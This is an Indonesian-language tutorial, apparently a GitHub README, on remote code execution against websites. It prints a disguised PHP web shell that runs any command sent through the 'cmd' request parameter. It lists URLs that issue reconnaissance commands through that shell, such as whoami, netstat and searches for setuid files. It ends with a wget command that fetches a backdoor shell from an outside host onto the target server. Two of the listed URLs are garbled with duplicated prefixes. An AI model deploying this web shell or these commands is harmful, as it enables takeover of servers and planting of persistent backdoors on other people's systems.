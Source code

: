 ### Remote Code Execution

<p align="center">
<img src="https://i.ibb.co/3TNyvvW/20201211-095009.png" height="150" width="150">

Basic For Remote Code Execution ( Critical )

merupakan suatu teknik serangan pada website dengan cara mengeksekusi kode berbahaya dan mengambil alih kendali akses ke sistem komputer. attacker mempunyai kemampuan untuk mengeksekusi perintah di mesin target, biasanya memanfaatkan kelemahan aplikasi yang dijadikan target eksploitasi.
Remote Command Execution (RCE) atau Remote Arbitary Command Execution (ACE) adalah bug yg memungkinkan attacker untuk menjalankan command2 secara remote melalui url. Bug ini biasanya terdapat pada aplikasi yg mnggunakan cgi.

Contoh Kasus Nya Kayak Gini Lur

```
<style>body{font-size: 0;}h1{font-size: 12px}</style><h1>
<?php if(isset($_REQUEST['cmd'])){system($_REQUEST['cmd']);}else{echo '<img src="https://i.ibb.co/3TNyvvW/20201211-095009.png" border=0>
';}__halt_compiler();?></h1>
```

### Basic Rce

Misal Gua Upload File : rce.php

Request Dari php nya adalah = cmd

Cara Akses ? :
```
http://site.com/rce.php?cmd=
```

Oke Kita Jalankan Beberapa Perintah Dasar RCE
```
http://site.com/rce.php?cmd=ls
http://site.com/rce.php?cmd=whoami
http://site.com/rce.php?cmd=uname -a
http://site.com/rce.php?cmd=pwd
http://site.com/rce.php?cmd=ps aux
http://site.com/rce.php?cmd=ls -la
http://site.com/rce.php?cmd=netstat -an | grep -i listen
http://site.com/rce.php?cmd=lsattr -va
http://site.com/rce.php?cmd=http://site.com/rce.php?cmd=find / -type f -perm -04000 -ls
http://site.com/rce.php?cmd=http://site.com/rce.php?cmd=netstat -an | grep -i listen
http://site.com/rce.php?cmd=find / -type f -perm -02000 -ls

```

### Reverse Shell Via RCE
Kita Menggunakan Command wget 
```
http://site.com/rce.php?cmd=wget http://dyan6etar.cf/shell.txt -O namashell.php
```
Jika Sudah Kita Akses Di Dokumen Root : site.com/namashell.php

### Penjelasan Singkat
Penjelasan Singkat Tentang Command wget :

wget menurut Otak Gua : Menarik File Dari Luar Server dan Juga Membuat Di Dalam Server

Sedangkan -O Untuk Menamakan File Tersebut 

Sebagai contoh : Saya Telah Membuat Shell Dengan Ekstensi txt Dan Menguploadnya di hosting lain artinya itu diluar server , nah dengan perintah wget kita bisa menarik file itu ke dalam server cuk dan di buat filenya dengan perintah -O.

Tentu Saja Ini Bisa Di Manfaatkan Untuk Up Shell BackDoor

Oke Sekian Sayang:v

